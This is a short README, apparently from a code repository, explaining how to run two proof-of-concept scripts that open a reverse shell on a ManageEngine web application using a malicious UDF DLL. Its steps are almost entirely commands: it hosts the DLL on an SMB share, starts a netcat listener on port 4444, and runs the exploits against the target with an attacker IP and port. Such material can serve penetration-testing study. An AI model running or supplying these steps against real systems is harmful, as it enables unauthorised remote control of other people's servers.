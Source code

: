 # UDF Reverse Shell

## How to use

### poc1.py
1. Start a SMB server and host a share (_test_) in the same directory as the `udf_rev_shell.dll` file:
```bash
impacket-smbserver -smb2support test .
```

2. Start a netcat listener:
```bash
nc -lnvp 4444
```

3. Run the proof of concept (poc1.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 poc1.py https://manageengine:8443 192.168.45.211 4444
```


### poc2.py
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc2.py) using Python2 and specify the target ManageEngine web application and listener parameters. Ensure that the `udf_rev_shell.dll` file is in the same workign directory as `poc2.py`:
```bash
python2 poc2.py https://manageengine:8443 192.168.45.211 4444
```
